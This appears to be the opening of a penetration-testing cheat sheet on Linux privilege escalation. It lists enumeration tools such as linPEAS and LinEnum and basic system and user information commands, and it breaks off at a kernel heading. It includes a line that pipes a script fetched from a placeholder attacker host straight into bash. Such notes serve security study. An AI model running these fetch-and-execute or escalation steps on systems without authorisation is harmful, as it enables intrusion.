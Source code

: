 ```yaml
---
title: linux privesc
category: linux privesc
order: 1
---
```

---
based on:
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections?next_slideshow=1


&nbsp;
# **1 AUTOMATIC INFO GATHERING**
---
### linPEAS
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```
./linpeas.sh
```

### LinEnum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

```
curl http://attackerip/LinEnum.sh | /bin/bash
./LinEnum.sh -t
```
### Linuxprivchecker
http://www.securitysift.com/download/linuxprivchecker.py

&nbsp;
# **2 MANUAL INFO GATHERING**
---
### Operating System
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
lsb_release -a
cat /etc/redhat-release   # Redhat based
```
### user info
```
id
whoami
last
```
### kernel
